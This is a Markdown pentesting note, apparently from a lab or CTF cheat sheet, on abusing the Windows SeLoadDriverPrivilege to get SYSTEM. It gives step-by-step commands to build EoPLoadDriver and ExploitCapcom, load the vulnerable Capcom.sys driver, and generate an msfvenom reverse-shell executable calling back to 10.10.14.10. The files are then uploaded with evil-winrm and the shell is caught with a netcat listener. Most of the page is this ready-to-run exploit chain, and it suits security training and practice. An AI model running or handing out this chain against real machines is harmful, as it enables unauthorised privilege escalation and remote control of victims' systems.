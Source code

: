 ```yaml
---
title: "SeLoadDriverPrivilege"
date: 2024-7-18
tags: ["SeLoadDriverPrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


---
### Abuse #1: Install malicious driver

#### 1. Compile eoploaddriver

[eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)

```bash
+---------------------------------------------------------------------------------------+
| 1. Open Visual Studio 2022                                                            |
| 2. Create a new project                                                               |
| 3. Project Template : C++ Console App                                                 |
| 4. Project Name     : Eoploaddriver                                                   |
| 5. Replace code     : eoploaddriver.cpp                                               |
| 6. Remove header    : `include "stdafx.h"`                                            |
| 7. Release -> x64                                                                     |
| 8. Build   -> Build Solution                                                          |
| 9. Exported to C:\Users\user\source\repos\Eoploaddriver\x64\Release\Eoploaddriver.exe |
+---------------------------------------------------------------------------------------+
```

#### 2. Download Capcom.sys

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

#### 3. Compile ExploitCapcom

[ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)

```bash
+----------------------------------------------------------------------------------------+
| 1. Double click ExploitCapcom.sln                                                      |
| 2. Replace the payload to `TCHAR CommandLine[] = TEXT("C:\\Windows\\Tasks\\rev.exe");` |
| 3. Release -> x64                                                                      |
| 4. Build   -> Build Solution                                                           |
| 5. Exported to .\x64\Release\ExploitCapcom.exe                                         |
+----------------------------------------------------------------------------------------+
```

#### 3. Create stageless payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o rev.exe
```

#### 4. Upload

```powershell
# For example (evil-winrm)
upload Eoploaddriver.exe C:\ProgramData\Eoploaddriver.exe
```

```powershell
upload Capcom.sys C:\ProgramData\Capcom.sys
```

```powershell
upload ExploitCapcom.exe C:\ProgramData\ExploitCapcom.exe
```

```powershell
upload rev.exe C:\ProgramData\rev.exe
```

#### 5. Exploit

```bash
# Start a nc listener
rlwrap nc -lvnp 443
```

```powershell
C:\ProgramData\Eoploaddriver.exe System\CurrentControlSet\test C:\ProgramData\Capcom.sys
```

```powershell
C:\ProgramData\ExploitCapcom.exe
```

<br>